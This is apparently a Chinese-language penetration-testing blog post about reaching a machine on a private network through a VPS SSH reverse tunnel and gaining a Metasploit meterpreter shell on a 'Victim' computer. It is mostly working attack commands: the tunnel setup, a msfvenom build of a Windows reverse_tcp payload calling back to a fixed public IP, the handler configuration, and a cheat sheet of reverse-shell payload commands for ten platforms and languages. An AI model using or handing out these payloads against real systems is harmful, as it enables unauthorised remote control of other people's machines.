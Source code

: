 ```yaml
---
layout:     post
title:      通过 VPS SSH Tunnel 实现内网穿透
author:     wooy0ung
tags: 		dos
category:  	exploit
---
```



>内网 IP 一般是动态变化的, 直接以内网 IP 的点对点通讯不利于维持控制。
>因此, 必须有一个公网 IP 作为跳板(这里用VPS), 当 Victim 反向连接 VPS时, 进行端口转发, 将
所有流量通过 SSH Tunnel 发送到 Attacker 的机器。  
![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x00.png)
<!-- more -->


### 0x00 config & open SSH Tunnel

在 /etc/ssh/sshd_config 文件末尾添加

```
GatewayPorts yes
```

打开ssh隧道

```
$ ssh -N -R 9000:192.168.1.116:9000 root@VPS_IP
```


### 0x01 make payload & exploit

生成 x86 Windows payload

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=188.166.209.119 LPORT=9000 -f exe > run.exe
```

start msf

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.116
msf exploit(handler) > set lport 9000
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j
```

测试 ssh Tunnel 是否畅通

```
$ tcping VPS_IP 9000
```

msf弹出提示信息, 端口转发正常

![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x01.png)

在 Victim's Machine 上执行 payload, getshell~

![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x02.png)


### 0x02 后记: msfvenom生成各类payload命令

```
Linux: 
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=IP lport=PORT -f elf > shell.elf

Windows: 
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f exe > shell.exe

Mac: 
msfvenom -p osx/x86/shell_reverse_tcp lhost=IP lport=PORT -f macho > shell.macho

PHP: 
msfvenom -p php/meterpreter_reverse_tcp lhost=IP lport=PORT -f raw > shell.php cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP: 
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f asp > shell.asp

JSP: 
msfvenom -p java/jsp_shell_reverse_tcp lhost=IP lport=PORT -f raw > shell.jsp

WAR: 
msfvenom -p java/jsp_shell_reverse_tcp lhost=IP lport=PORT -f war > shell.war

Python: 
msfvenom -p cmd/unix/reverse_python lhost=IP lport=PORT -f raw > shell.py

Bash:
msfvenom -p cmd/unix/reverse_bash lhost=IP lport=PORT -f raw > shell.sh

Perl: 
msfvenom -p cmd/unix/reverse_perl lhost=IP lport=PORT -f raw > shell.pl
```